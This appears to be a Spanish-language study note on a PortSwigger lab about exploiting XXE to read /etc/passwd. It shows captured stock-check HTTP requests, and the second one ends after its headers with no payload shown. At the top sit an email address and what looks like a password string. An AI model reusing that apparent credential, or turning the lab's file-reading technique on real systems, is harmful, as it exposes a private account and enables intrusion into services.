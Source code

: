 [[RED TEAM]]
eduardo.lazaro@heuristica-ti.com.mx
2|653C[8Wr=J-rN"ygd,$495$Hg&k94}

---
# Lab 1 : Exploiting XXE external entities to retrieve files

Este laboratorio tiene una característica de "Comprobar existencias" que analiza la entrada XML y devuelve cualquier valor inesperado en la respuesta. Para resolver el laboratorio, inyecte una entidad externa XML para recuperar el contenido del archivo /etc/passwd.

![[Pasted image 20230814115018.png|]]

```
POST /product/stock HTTP/2
Host: 0a5e005b047c4a7f839eb52500a40035.web-security-academy.net
Cookie: session=eKUxopFI8gCrE9jZ3wmXyq8KSuRgRP8B
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a5e005b047c4a7f839eb52500a40035.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 107
Origin: https://0a5e005b047c4a7f839eb52500a40035.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Dnt: 1
Sec-Gpc: 1
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>
2
</productId>
<storeId>
1
</storeId>
</stockCheck>
```

![[Pasted image 20230814121015.png|1000]]

```
POST /product/stock HTTP/2
Host: 0a5e005b047c4a7f839eb52500a40035.web-security-academy.net
Cookie: session=eKUxopFI8gCrE9jZ3wmXyq8KSuRgRP8B
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a5e005b047c4a7f839eb52500a40035.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 173
Origin: https://0a5e005b047c4a7f839eb52500a40035.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Dnt: 1
Sec-Gpc: 1
Te: trailers
```